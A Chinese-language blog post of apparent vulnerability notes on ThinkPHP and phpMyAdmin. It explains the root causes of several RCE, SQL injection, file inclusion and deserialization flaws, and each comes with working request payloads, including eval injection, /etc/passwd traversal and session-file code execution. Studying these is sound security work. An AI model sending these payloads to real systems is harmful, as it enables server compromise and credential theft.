








包含 ThinkPHP 5.x RCE / ThinkPHP 5.0.23 RCE / ThinkPHP 2.x RCE / ThinkPHP 5.x SQL 注入导致敏感信息泄露 / phpMyAdmin 4.8.1 远程文件包含 / phpMyAdmin 4.0.x-4.6.2 认证用户 RCE / phpMyAdmin 2.x setup.php 反序列化

<!--more-->

## ThinkPHP 5.x RCE

[参考](https://xz.aliyun.com/t/3570)

Controller 中没有过滤掉 `\`，但命名空间恰好需要用到 `\`，因此可以调用任意类的方法达到 RCE。

```
/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=printf&vars[1][]=b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327
```



## ThinkPHP 5.0.23 RCE

[参考](https://xz.aliyun.com/t/3845)

获取 HTTP 请求类型时没有过滤，导致可以调用任意方法，参数为 POST 的数据。因此可以调用 `Request` 类的构造函数，覆盖其成员属性 `method, filter, get`，最终调用 `call_user_func` 实现 RCE。

```
POST /?s=captcha HTTP/1.1
...

_method=__construct&filter[]=printf&method=get&get[]=b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327
```

```
POST /?s=captcha HTTP/1.1
...

_method=__construct&filter[]=printf&method=get&server[REQUEST_METHOD]=b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327
```



## ThinkPHP 2.x RCE

[参考](http://since1994.cn/?p=281)

`preg_replace` 的 `/e` 模式允许用户输入的参数被执行，造成 RCE。

```
POST /?s=1/2/3/${eval($_POST[merc])} HTTP/1.1
...

merc=printf(b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327);
```



> ThinkPHP 3.0 Lite 模式下同样存在漏洞。

## ThinkPHP 5.x SQL 注入导致敏感信息泄露

[参考](https://xz.aliyun.com/t/125)

PDO 查询时如果在查询条件中遇到了 `in` ，就会遍历传入数组 `ids` 的 key 和 value，而前者在预编译时并没有进行过滤，可以导致预编译结果出错。在 debug 模式开启时（默认），此时的报错会泄露数据库用户名和密码。

```
/index.php?ids[1,updatexml(1,concat(0x7e,md5(1),0x7e),1)]=1
```



## phpMyAdmin 4.8.1 远程文件包含 CVE-2018-12613

[参考](https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog)

代码中存在文件包含，只需要绕过条件判断中的白名单。判断函数利用 `?` 截断 GET 参数，并且还会进行 URL 解码，因此利用二次 URL 编码 `%253f` 即可绕过白名单，同时读取任意文件。

```
/index.php?target=db_sql.php%253f/../../../../etc/passwd
```



随后，执行 `select <?=phpinfo()?>;`，抓包获取当前 session，随后访问 session 文件即可执行对应 php 代码：

```
/index.php?target=db_sql.php%253f/../../../../tmp/sess_1ee714d1373e5caad9faf122e9ad1798
```



## phpMyAdmin 4.0.x-4.6.2 认证用户 RCE CVE-2016-5734

实际影响版本：

- 4.0.x < 4.0.10.16
- 4.4.x < 4.4.15.7
- 4.6.x < 4.6.3

[参考](https://larry.ngrep.me/2016/09/21/cve-2016-5734-analysis/)

这个问题实际上是 PHP 5.4.7 的 `preg_replace` 函数的问题。当使用类似如下代码时：

```php
preg_replace('/'.$user_input.'/i', $replace, $text);
```

我们可以输入 `/e\0` 来注入 `/e` 修饰符，同时截断后面的内容来达成 RCE。

在 phpMyAdmin 中利用这个漏洞，需要知道系统的用户名密码：[exp](https://www.exploit-db.com/exploits/40185)



## phpMyAdmin 2.x setup.php 反序列化

[参考](https://rj45mp.github.io/phpMyAdmin-WooYun-2016-199433/)

在 `/scripts/setup.php` 中没有对 `configuration` 参数进行过滤就进行了反序列化，因此可以注入一个 `PMA_Config` 对象，在构造函数中引入其成员变量 `source` 并通过 `eval` 执行。既可以读取文件，也可以通过已有文件执行代码。

以读取 `/etc/passwd` 为例：

```php
<?php
class PMA_Config {
  public $source = "/etc/passwd";
}

$data = new PMA_Config();
echo serialize($data);

?>
```

运行可以得到：

```
O:10:"PMA_Config":1:{s:6:"source";s:11:"/etc/passwd";}
```



之后可以进一步通过 ftp 协议写 shell。
